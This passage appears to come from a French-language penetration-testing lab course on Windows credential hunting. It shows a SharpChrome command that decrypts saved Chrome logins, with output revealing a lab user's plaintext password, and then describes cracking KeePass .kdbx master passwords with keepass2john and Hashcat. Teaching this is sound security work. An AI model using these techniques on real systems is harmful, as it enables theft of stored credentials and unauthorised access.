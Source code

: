 #### Récupération des informations d'identification enregistrées à partir de Chrome

Les utilisateurs stockent souvent les informations d'identification dans leurs navigateurs pour les applications qu'ils visitent fréquemment. Nous pouvons utiliser un outil tel que [SharpChrome](https://github.com/GhostPack/SharpDPAPI) pour récupérer les cookies et les connexions enregistrées à partir de Google Chrome.

Récupération des informations d'identification enregistrées à partir de Chrome

```
PS C:\htb> .\SharpChrome.exe logins /unprotect

   __ _
  (_ |_ _. ._ ._ / |_ ._ _ ._ _ _
  __) | | (_| | |_) \_ | | | (_) | | | (/_
                 |
   v1.7.0

[*] Action : Triage des connexions enregistrées dans Chrome

[*] Triage des connexions Chrome pour l'utilisateur actuel

[*] Fichier de clé d'état AES : C:\Users\bob\AppData\Local\Google\Chrome\User Data\Local State
[*] Clé d'état AES : 5A2BF178278C85E70F63C4CC6593C24D61C9E2D38683146F6201B32D5B767CA0

--- Identifiant Chrome (chemin : C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data) ---

file_path,signon_realm,origin_url,date_created,times_used,username,password
C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data,https://vc01.inlanefreight.local/,https://vc01.inlanefreight.local/ui,4/12/ 2021 17:16:52,13262735812597100,bob@inlanefreight.local,Bienvenue1

```

* * * * *

Gestionnaires de mots de passe
-----------------

De nombreuses entreprises fournissent des gestionnaires de mots de passe à leurs utilisateurs. Cela peut prendre la forme d'une application de bureau telle que `KeePass`, d'une solution basée sur le cloud telle que `1Password` ou d'un coffre-fort de mots de passe d'entreprise tel que `Thycotic` ou `CyberArk`. L'accès à un gestionnaire de mots de passe, en particulier celui utilisé par un membre du personnel informatique ou un service entier, peut conduire à un accès de niveau administrateur à des cibles de grande valeur telles que des périphériques réseau, des serveurs, des bases de données, etc. Nous pouvons avoir accès à un coffre-fort de mots de passe en réutilisant les mots de passe ou en devinant un mot de passe faible/commun. Certains gestionnaires de mots de passe tels que `KeePass` sont stockés localement sur l'hôte. Si nous trouvons un fichier `.kdbx` sur un serveur, un poste de travail ou un partage de fichiers, nous savons que nous avons affaire à une base de données `KeePass` qui est souvent protégée par un simple mot de passe principal. Si nous pouvons télécharger un fichier `.kdbx` sur notre hôte attaquant, nous pouvons utiliser un outil tel que [keepass2john](https://gist.githubusercontent.com/HarmJ0y/116fa1b559372804877e604d7d367bbc/raw/c0c6f45ad89310e61ec0363a69913e966fe17 633/keepass2john.py) pour extraire le hachage du mot de passe et exécutez-le via un outil de craquage de mot de passe tel que [Hashcat](https://github.com/hashcat) ou [John the Ripper](https://github.com/openwall/john).
